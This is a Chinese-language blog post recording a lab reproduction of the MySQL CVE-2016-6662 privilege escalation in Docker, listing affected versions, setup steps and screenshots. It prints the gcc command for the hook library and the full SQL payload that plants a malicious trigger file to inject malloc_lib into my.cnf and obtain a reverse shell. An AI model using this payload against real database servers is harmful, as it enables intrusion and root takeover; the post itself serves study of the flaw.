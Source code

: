 ```yaml
---
title: MYSQL提权分析
date: 2016-09-18 08:53:47
tags: 
 - cve
categories: notes
---
```


## 概述

几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）

<!-- more -->
## 漏洞影响

```
MySQL  <= 5.7.15       远程代码执行/ 提权 (0day)
        5.6.33
        5.5.52

Mysql分支的版本也受影响,包括：
    MariaDB
    PerconaDB
```

## 实验分析

这次实验主要使用docker搭建环境，有需要的同学可以pull我的库玩[0kami/vulenv:cve-2016-6663](https://hub.docker.com/r/0kami/vulevn/tags/)
实验主要从attacker的角度入手，预先拥有的权限：
```
mysql 账户拥有file权限 bob/bob
exp mysql_hookandroot_lib.c
mysql-server-5.6
my.cnf可被mysql组改写写
```

先查看一下版本信息
![](/images/cve-2016-6662/pic1.png)
将`/etc/mysql/my.cnf`权限修改掉
![](/images/cve-2016-6662/pic2.png)
创建bob用户，并赋予file，select，insert权限，创建用于实验的数据库activedb和表active_table
![](/images/cve-2016-6662/pic3.png)
![](/images/cve-2016-6662/pic4.png)
将exp先写入tmp目录，并编译成so文件，需要修改一下ip，port和my.cnf的位置
![](/images/cve-2016-6662/pic5.png)
`gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl`
![](/images/cve-2016-6662/pic6.png)
最后一步就是准备一下active_table的触发器了，我们可以现在自己电脑上root用户权限下生成一个tragger
![](/images/cve-2016-6662/pic7.png)
在activedb数据下会生成一个触发器
![](/images/cve-2016-6662/pic8.png)
到此位置我们所有的准备工作都做好了。让我们用bob用户来弹个shell吧
```
select "TYPE=TRIGGERS\ntriggers='CREATE DEFINER=`root`@`localhost` TRIGGER active_table\nAFTER INSERT\n   ON `active_table` FOR EACH ROW\nBEGIN\n   DECLARE void varchar(550);\n   set global general_log_file=\\\'/etc/mysql/my.cnf\\\';\n   set global general_log = on;\n   select \"\n[mysqld]\nmalloc_lib=\\\'/tmp/mysql_hookandroot_lib.so\\\'\n\" INTO void;   \n   set global general_log = off;\nEND'\nsql_modes=1073741824\ndefiners='root@localhost'\nclient_cs_names='latin1'\nconnection_cl_names='latin1_swedish_ci'\ndb_cl_names='latin1_swedish_ci'" into dumpfile '/var/lib/mysql/activedb/active_table.TRG';
```
用bob的用户写入文件产生一个触发器，这个触发器当产生insert时触发
![](/images/cve-2016-6662/pic9.png)
来查看一下，执行后的`/etc/mysql/my.cnf`的内容
![](/images/cve-2016-6662/pic10.png)
重启一下数据库，反弹一个shell
发现可写的my.cnf会被忽略？？？不知道为什么（难道打补丁了？），不知道5.5的情况会怎么样，所以先把my.cnf的权限改回来744
![](/images/cve-2016-6662/pic11.png)
![](/images/cve-2016-6662/pic12.png)
成功反弹一个shell，这边返回的一个shell是mysql权限的 是因为我测试的环境mysqld_safe是以mysql权限运行的，所以弹出来的权限是mysql的，但是如果mysqld_safe是以root权限运行，那么反弹的shell就是root权限的，造成提权。
## 总结
测试环境搭建还有利用过程还是出现了很多问题，可写的my.cnf会被忽略载入（不知道是不是因为修复过的原因），triggers的利用（可以同样利用在拥有file权限的情况下提升权限，这个到时候再深入学习一下）


